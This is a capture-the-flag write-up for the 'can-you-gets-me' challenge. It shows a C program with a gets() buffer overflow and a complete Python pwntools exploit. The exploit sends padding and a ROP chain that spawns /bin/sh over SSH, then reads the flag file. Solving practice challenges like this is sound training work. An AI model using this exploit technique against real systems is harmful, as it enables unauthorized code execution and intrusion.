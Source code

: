 can-you-gets-me - Points: 650 
===========

## Description

>Can you exploit the following program to get a flag? You may need to think return-oriented if you want to program your way to the flag.

## Hint:

> * This is a classic gets ROP

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("GIVE ME YOUR NAME!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);


  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();

}


```

## Useful Information

There is many available gadgets (too much):
> * Unique gadgets found: 11741


## Exploit


**Too much gadget , let's use the ropchain function from [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) for generate the script:**

Final script modified for Flag :

```python
#!/usr/bin/python2.7
from pwn import *

user=""
password=""
host=""

path_exec="/problems/can-you-gets-me_4_f269dbca3097204b5d4a0064467b0a8c/gets"
rem = ssh(host=host,user=user,password=password).process(path_exec)


p = ''
p += p32(0x0806f02a) # pop edx ; ret
p += p32(0x080ea060) # @ .data
p += p32(0x080b81c6) # pop eax ; ret
p += '/bin'
p += p32(0x080549db) # mov dword ptr [edx], eax ; ret
p += p32(0x0806f02a) # pop edx ; ret
p += p32(0x080ea064) # @ .data + 4
p += p32(0x080b81c6) # pop eax ; ret
p += '//sh'
p += p32(0x080549db) # mov dword ptr [edx], eax ; ret
p += p32(0x0806f02a) # pop edx ; ret
p += p32(0x080ea068) # @ .data + 8
p += p32(0x08049303) # xor eax, eax ; ret
p += p32(0x080549db) # mov dword ptr [edx], eax ; ret
p += p32(0x080481c9) # pop ebx ; ret
p += p32(0x080ea060) # @ .data
p += p32(0x080de955) # pop ecx ; ret
p += p32(0x080ea068) # @ .data + 8
p += p32(0x0806f02a) # pop edx ; ret
p += p32(0x080ea068) # @ .data + 8
p += p32(0x08049303) # xor eax, eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0806cc25) # int 0x80

rem.sendline("A"*28+p)
rem.sendline("cat /problems/can-you-gets-me_4_f269dbca3097204b5d4a0064467b0a8c/flag.txt")
rem.interactive()
rem.close()

```

